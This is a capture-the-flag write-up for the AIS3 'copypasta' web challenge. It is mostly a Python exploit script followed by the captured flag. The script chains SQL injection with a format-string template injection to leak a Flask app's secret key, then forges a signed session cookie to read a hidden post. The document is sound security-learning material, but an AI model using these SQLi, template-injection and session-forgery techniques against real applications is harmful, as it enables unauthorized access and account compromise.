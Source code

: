 # copypasta
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/4f6a587e-65c5-4e5c-b98f-39a21297138e)

## exploit
```python
import requests
import sys
import urllib.parse
import hashlib
from bs4 import BeautifulSoup
from flask.json.tag import TaggedJSONSerializer
from itsdangerous import *

session = requests.session()

sqli = " union SELECT 0 as id, 'ans' as title, '{field.__init__.__globals__[http]._dt_as_utc.__globals__[sys].modules[flask].current_app.secret_key}' as template"

session.get(f'{sys.argv[1]}')
data = session.post(f'{sys.argv[1]}/use?id=0{urllib.parse.quote(sqli, safe="")}', params={'a': 'a'}).text

secret_key = BeautifulSoup(data, "html.parser").article.get_text()
print(f'secret_key: {secret_key}')

sqli = " union SELECT id, id as title, id as template from copypasta where orig_id=3"
data = session.get(f'{sys.argv[1]}/use?id=0{urllib.parse.quote(sqli, safe="")}').text

flagid = BeautifulSoup(data, "html.parser").pre.get_text()
print(f'flagid: {flagid}')

for a in session.cookies:
    if a.name == 'session':
        nowsession = a
        break

serializer = URLSafeTimedSerializer(secret_key=secret_key,
                  salt='cookie-session',
                  serializer=TaggedJSONSerializer(),
                  signer_kwargs={
                      'key_derivation': 'hmac',
                      'digest_method': hashlib.sha1,
                  })

sessiondata = serializer.loads(nowsession.value)
sessiondata['posts'].append(flagid)
session.cookies.set(nowsession.name, serializer.dumps(sessiondata), domain=nowsession.domain, path=nowsession.path)

print(session.get(f'{sys.argv[1]}/view/{flagid}').text)
```

## Flag
![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/a4b2e738-1171-4938-abc6-14c7857e024a)

`AIS3{I_l0Ve_P@$tA_@ND_cOpypasta}`
